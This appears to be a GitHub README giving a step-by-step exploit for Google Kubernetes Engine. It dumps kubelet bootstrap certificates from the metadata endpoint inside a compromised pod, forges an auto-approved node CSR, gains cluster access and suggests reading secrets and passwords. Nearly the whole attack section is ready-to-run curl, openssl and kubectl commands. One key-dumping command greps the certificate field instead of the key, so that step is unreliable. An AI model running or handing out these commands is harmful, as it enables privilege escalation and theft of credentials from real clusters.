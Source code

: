 ### How to get access into a K8s from inside k8s pod using Kubelet TLS Bootstrapping.

Required: You need to be a inside a pod and have kubectl curl installed.

### - How the exploit works.

1. Vulnerable Systems in GKE

- A cluster which has no workload identity configured for k8s cluster
- A cluster with workload identity configured but the pod has hostNetwork: true flag in its spec

2. Description of the expolit

- Bootstrap certs are the main reason this exploit even works. If an attacker gets hold of the bootstrap.crt and bootstrap.key he can list and get CSR objects on k8s cluster which is exploited.
- In GCP there is something called metadata.google.internal endpoint which holds the metadata of the Compute Engine. All VMs in gce can access this endpoint to check the metadata pertaining to it.
- In case of GKE Nodes this endpoint contains a metadata which has all key , value pairs pertaining to GKE cluster eg: ca.cert, K8S api server endpoint etc.
- We will look for one such key value pairs called TPM_BOOTSTRAP_CERT and TPM_BOOTSTRAP_KEY and gain access to list , get and create CSR objects.

### Preparation for the exploit.

- You must have gained an RCE access to a pod inside the vulnerable cluster (By any means). And have kubectl and curl installed.

### The exploit.

- Once you are in the pod which is vulnerable, check if the following endpoint gives some data.

`curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env'`

- If you get some data from the above mentioned endpoint, look for TPM_BOOTSTRAP_CERT , TPM_BOOTSTRAP_KEY and CA_CERT and dump them.

```
curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep TPM_BOOTSTRAP_CERT | awk '{print $2}' | base64 -d > bootstrap.crt

curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep TPM_BOOTSTRAP_CERT | awk '{print $2}' | base64 -d > boostrap.key

curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep CA_CERT | awk '{print $2}' | base64 -d > ca.crt
```

- After dumping these certs , now the real expolits starts. Use the below command to view the CSR objects in the cluster. Also there KUBERNETES_PORT_443_TCP_ADDR is the endpoint of the API server or the masterIP:443

`kubectl --client-certificate bootstrap.crt --client-key boostrap.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get certificatesigningrequests`

- If you are able to list the csr objects then it is time to create one for yourself and access the cluster using your own certs. (More details on How to access cluster using the certs api is documented here)[https://github.com/Vinayaks439/k8s-security-docs/blob/main/docs/CreateUser.MD]

- Create a key and CSR cert by using openssl command.

`openssl req -nodes -newkey rsa:2048 -keyout k8sgg.key -out k8sgg.csr  -subj "/O=system:nodes/CN=system:node:<NAME of the NODE>"`

**Note: Here the CN must be as mentioned above, you have to provide your name of the node where your current pod is running on (Else it wont be auto approved).**

- After you generate a CSR cert. It is time to create a CSR object in k8s cluster from within your pod.

```
cat <<EOF | kubectl --client-certificate bootstrap.crt --client-key boostrap.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} create -f -
apiVersion: certificates.k8s.io/v1
kind: CertificateSigningRequest
metadata:
  name: node-csr-$(date +%s)
spec:
  groups:
  - system:nodes
  request: $(cat k8sgg.csr | base64 | tr -d '\n')
  signerName: kubernetes.io/kube-apiserver-client-kubelet ##If all rules are alinged it will be auto approved.
  expirationSeconds: 86400
  usages:
  - digital signature
  - key encipherment
  - client auth
EOF
```

**Note: The spec.expirationSeconds field was added in Kubernetes v1.22. Earlier versions of Kubernetes do not honor this field. Kubernetes API servers prior to v1.22 will silently drop this field when the object is created.**

- Make sure your object alings well with this documentation which has rules pertaining to your (signerName)[https://kubernetes.io/docs/reference/access-authn-authz/certificate-signing-requests/#kubernetes-signers]

- Once your CSR object is auto aprroved and issued, you can fetch your signed public.crt using the following command below.

`kubectl --client-certificate bootstrap.crt --client-key boostrap.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get csr <CSR_NAME> -o jsonpath='{.status.certificate}' | base64 --decode > node.crt`

- Now finally you have a signed public.crt and a private.key which you generated and is now authenticated to the cluster. You can verify that by using your certs in the kubectl command.

`kubectl --client-certificate node.crt --client-key k8sgg.key --certificate-authority ca.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get pods -o wide`

- Voila you just got access to pods by being inside a pod.

- You can use this cert to list secrets and fetch the passwords used by the application inside the cluster.